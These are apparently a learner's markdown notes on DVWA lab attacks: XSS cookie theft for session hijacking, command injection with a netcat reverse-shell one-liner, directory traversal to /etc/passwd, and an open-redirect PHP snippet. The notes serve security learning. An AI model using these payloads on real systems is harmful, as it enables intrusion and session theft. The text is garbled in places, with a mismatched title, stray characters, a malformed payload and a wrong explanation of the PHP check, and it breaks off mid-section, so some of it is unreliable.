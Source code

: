 # Decryption of Hash Value

Understanding the HTML Code. We need to understand what exactly the body part is.

```html
<script> alert("Hello");</script>
```

This is called XSS. Whenever this script is being called, all the items will have the entry of the following script you inserted in the inputs. 

PHPSESSID is required for session hijacking, meaning through this you'd be able to hijack the session using the following sessionid, but remember that this is only valid for the PHPSESSID, meaning it works in case of PHP only.

# What needs to be done?

- Go to the website, and run the above script and this script is used to check or learn the 

```
<script> alert(document.cookie); </script>
```

- Now you need to go to the website, but now you have the session id, and now go to the burpsuite and try the same sessionid with the same session id on cookie. Thus, now you can perform the attack, as you are able to login to the system. 

- 10101

- You can go to the DVWA and also look for the XSS.

- You can also do this using the url, meaning you can change the *name* in File Autentication method, writing the same inputs of `script` would do.

```
?name=<script>alert("Hello"<%@F>)>
```

# Command Injection Attack 

Command Injection is the paradigm of exploiting the vulnerability where attacker is able to identify the code loophole, where anyone might use the input methods to execute malicious file and able to hack the whole system and through this the attacker will be able to create **backdoor** for themselves. This can be done in the following way. First identify the code injection point, and then make sure that you've included the file on the server and the you need to execute the file on the server.

Another method is Reverse Shell Direction, where you can execute the following command to create a  session that is listening on the particular port.

```
nc -nlvp 1337
```

After this you need to execute the following command to redirect the shell command to your own server.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /your/shell/path -i 2>&1 | nc <localhost/IPAddress> 1337 > /tmp/f
```

The following code will redirect the shell command. This was about the Low sercurity, what if we want to break the medium security, meaning what about breaking the code on *Medium Level*. So, *To break the code at Medium Level*, view the source code and try breaking the code, where they say trying running the *ping* in the background. 

```
127.0.0.1 & ls -la & pwd & whoami & hostname
```

What `&` does is that it allows you to run the command in the background. Through this you are able to breach the security. The Attacker may use as any unauthorised access of the system, where attacker will user various input methods vulnerability and will be able to find his way into the system.

# File Inclusion Vulnerability

File Inclusion is the method of uploading the file that is corrupted and making use of it for creating the backdoor through the file. Say it could be any shell file or any other file that will execute the corrupted code.

Baiscally there are two kinds one is LFI (Local File Inclusion), meaning if the file was moved locally and another is RFI (Remote File Inclusion), meaning when the file was included remotely over the server. Normally it is where one vulnerability is found where the input is taken by the users without **sanitizing** the filename, popularly an attacker could replace a filename `image.jpg` with some payload.

Normally what they do is that they traverse the directory, which is called **directory traversal payload** that escapes the script directory and traverses the filesystem directory structure, thus it could expose the sensitive file as below:

```
foo.php?file=../../../../../../../../../etc/passwd
```


# Open HTTP Redirection

*What is HTTP Redirection?* It is caused due to the input validation flaw where user input is trusted that leads to external URL to some target site, or it could be malicious. This is basically used as phishing attack that can used to redirect the users to another website. This happens when the code takes the input without validating that the input is carrying a URL that is redirecting the user to another website.

Consider the code below:

```
<?php

if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "") {
    if (preg_match ("/http:\/\/|https:\/\//i", $_GET['redirect'])) {
        http_response_code (500);
        ?>
        <p>Absolute URLs not allowed.</p>
        <?php
        exit;
    } else {
        header ("location: " . $_GET['redirect']);
        exit;
    }
}

http_response_code (500);
?>
<p>Missing redirect target.</p>
<?php
exit;
?>
```

The line `if (array_key_exists ("redirect", $_GET) && $_GET['redirect'] != "")` checks whether the file input is not having any abosolute path to any website, this one ensures the security of the user, and doesn't fully trust the user input. 

Refer to [Test for Client Side URL Redirection](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/04-Testing_for_Client_Side_URL_Redirect) in order you want to learn more about it.

# How to Start the FTP Redirection?

The FTP Redirection can be enabled using the following steps:

- You need to `allow` for the configuration. 